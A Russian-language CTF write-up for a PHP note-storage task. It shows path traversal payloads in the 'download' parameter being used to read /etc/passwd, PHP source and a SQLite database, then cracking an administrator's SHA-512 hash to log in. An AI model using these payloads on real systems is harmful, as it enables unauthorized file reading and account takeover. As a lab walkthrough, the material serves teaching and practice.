








# Надежное хранилище 🌐

## Описание задачи

Задача: **Надежное хранилище**

Сложность: 

Описание с платформы:

> Добро пожаловать в "Надёжное хранилище" — защищенный цифровой бункер, где информация шифруется более крепче, чем сейф из титана. Здесь каждая запись — это мощный алгоритм шифрования, сплетающийся из битов и байтов в интригующий пазл непроницаемых кодов.

Адрес задания:

```text
tasks.duckerz.ru:30060
```

Скрин с названием и описанием:



---

## Первый взгляд 👀

По описанию задача выглядит как сервис для хранения заметок или файлов.

В таких задачах сразу стоит смотреть:

- регистрацию и логин;
- создание заметок;
- список своих файлов;
- скачивание файлов;
- параметры, которые отвечают за имя файла;
- можно ли обратиться к чужому файлу или системному пути.

---

## Анализ в Burp

После работы с сайтом в Burp видно несколько маршрутов:

```text
GET  /
GET  /index.php
GET  /login.php
GET  /register.php
GET  /notes.php
GET  /create_note.php
POST /login.php
POST /register.php
POST /create_note.php
```

Самая важная строка в истории запросов:

```text
GET /notes.php?download=note0.txt
```

Скрин:



Параметр:

```text
download=note0.txt
```

говорит серверу, какой файл нужно скачать.

Ответ сервера:

```text
Content-Disposition: attachment; filename="note0.txt"
Content-Type: application/octet-stream
```

Это означает, что сервер отдает файл на скачивание.

В теле ответа видно содержимое заметки:

```text
alert("gggg")
```

То есть значение параметра `download` напрямую влияет на то, какой файл сервер читает и отправляет пользователю.

---

## Найденная уязвимость

Дальше запрос был отправлен в Burp Repeater и параметр `download` был изменен:

```http
GET /notes.php?download=../../../../etc/passwd HTTP/1.1
```

Скрин:



В ответ сервер вернул содержимое:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

Это файл:

```text
/etc/passwd
```

Значит уязвимость подтверждена.

---

## Что такое path traversal

Path traversal — это уязвимость, при которой приложение позволяет выйти за пределы ожидаемой директории через последовательности:

```text
../
```

Например, если сервер должен читать только файлы заметок:

```text
notes/note0.txt
```

но пользователь передает:

```text
../../../../etc/passwd
```

то путь может превратиться в обращение к системному файлу.

Идея:

```text
../  -> подняться на директорию выше
../../ -> подняться на две директории выше
```

В нашем случае параметр:

```text
download
```

не фильтруется достаточно строго, поэтому через него можно читать файлы вне папки с заметками.

---

## Почему это еще называют LFI

LFI расшифровывается как **Local File Inclusion**.

В широком смысле это ситуация, когда приложение позволяет прочитать или подключить локальный файл на сервере.

Здесь сервер не просто показывает свою заметку, а отдает системный файл:

```text
/etc/passwd
```

Поэтому уязвимость можно описать так:

```text
path traversal в параметре download, приводящий к чтению локальных файлов
```

---

## Почему /etc/passwd важен

`/etc/passwd` — стандартный файл Linux-систем, в котором перечислены пользователи.

Он часто используется как тестовый файл при проверке LFI/path traversal, потому что:

- путь известен заранее;
- файл обычно доступен на чтение;
- содержимое легко узнать по строкам вида `root:x:0:0:...`;
- если он возвращается в ответе, значит сервер действительно читает локальные файлы.

Важно: получение `/etc/passwd` само по себе еще не обязательно финал задачи. Это подтверждение уязвимости и отправная точка для поиска нужного файла с флагом.

---

## Чтение исходников через LFI

После подтверждения path traversal логичный следующий шаг — читать известные файлы приложения.

Так как сайт написан на PHP и в Burp уже были видны страницы:

```text
login.php
notes.php
create_note.php
register.php
```

можно попробовать прочитать их через тот же параметр `download`.

Например:

```http
GET /notes.php?download=../../login.php HTTP/1.1
```

Скрин:



В ответе виден исходный код `login.php`.

Самая важная строка:

```php
$db_path = 'static/instance/database.db';
```

То есть в коде найден путь к базе данных:

```text
static/instance/database.db
```

Также в `login.php` видно, как проверяется пароль:

```php
$stmt = $db->prepare('SELECT username, password FROM users WHERE username = ?');
$stmt->execute([$username]);
$user = $stmt->fetch();

if ($user && $user['password'] == hash('sha512', $password)) {
    $_SESSION['auth'] = $username;
    header('Location: notes.php');
    exit();
}
```

Из этого куска кода понятно:

- база данных — SQLite;
- таблица пользователей называется `users`;
- в таблице есть поля `username` и `password`;
- пароль хранится не в открытом виде, а как `sha512`;
- при логине сервер считает `hash('sha512', $password)` и сравнивает с хешем из базы.

---

## Чтение базы данных

Когда путь к базе найден, читаем ее через ту же уязвимость:

```http
GET /notes.php?download=../../static/instance/database.db HTTP/1.1
```

Скрин:



В ответе видно начало SQLite-файла:

```text
SQLite format 3
```

Это подтверждает, что сервер действительно вернул базу данных.

Внутри ответа видны структуры таблиц:

```sql
CREATE TABLE "users" (
    "id" INTEGER NOT NULL UNIQUE,
    "username" TEXT UNIQUE,
    "password" TEXT,
    PRIMARY KEY("id" AUTOINCREMENT)
)
```

Также в содержимом базы был найден пользователь:

```text
administrator
```

и рядом с ним длинный хеш пароля.

---

## Что такое SQLite

SQLite — это файловая база данных.

В отличие от MySQL или PostgreSQL, ей не обязательно нужен отдельный сервер. Вся база лежит в одном файле:

```text
database.db
```

Если приложение хранит такой файл внутри web-директории или путь к нему можно прочитать через LFI, его можно скачать как обычный файл.

В этой задаче именно это и произошло:

```text
LFI -> login.php -> путь к database.db -> чтение database.db
```

---

## Подбор пароля administrator

Из `login.php` уже известно, что пароль хранится как:

```php
hash('sha512', $password)
```

Значит найденный в базе хеш нужно проверять как SHA-512.

Для быстрой проверки использовался CrackStation:

```text
https://crackstation.net
```

Скрин:



Сервис определил:

```text
Type: sha512
Result: simpleplan
```

То есть пароль пользователя `administrator`:

```text
simpleplan
```

CrackStation не "расшифровывает" SHA-512. Хеши необратимы. Сервис просто ищет совпадение в заранее подготовленных таблицах популярных паролей.

---

## Вход под administrator

После нахождения пароля заходим на сайт под учетной записью:

```text
username: administrator
password: simpleplan
```

После входа открывается раздел файлов администратора.

Скрин:



На странице видно файл:

```text
fl4g.txt
```

Это уже явная финальная зацепка.

---

## Получение флага

После входа под `administrator` скачиваем файл:

```text
fl4g.txt
```

Скрин:



Флаг на скрине замазан, а в writeup явно не публикуется.

---

## Итог

Цепочка решения:

```text
download=note0.txt
-> path traversal в download
-> чтение /etc/passwd
-> чтение исходников PHP
-> login.php раскрывает static/instance/database.db
-> чтение SQLite database.db
-> поиск administrator и sha512-хеша
-> подбор пароля simpleplan
-> вход под administrator
-> скачивание fl4g.txt
-> флаг
```

Главная ошибка приложения: параметр `download` позволяет читать произвольные локальные файлы, из-за чего получилось добраться до исходников и базы данных.

---

## Текущий статус

Задача решена.

Зафиксировано:

- название и описание задачи;
- адрес сервиса;
- наличие регистрации, логина, заметок и скачивания файлов;
- параметр `download` в `/notes.php`;
- успешная проверка path traversal через `../../../../etc/passwd`;
- подтверждение LFI/path traversal на скрине из Burp Repeater;
- чтение `login.php` через LFI;
- нахождение пути `static/instance/database.db`;
- чтение SQLite-базы;
- нахождение пользователя `administrator`;
- подбор SHA-512 пароля через CrackStation;
- вход под `administrator`;
- получение флага из `fl4g.txt`.

---

Автор: **masquadd :)** ✍️
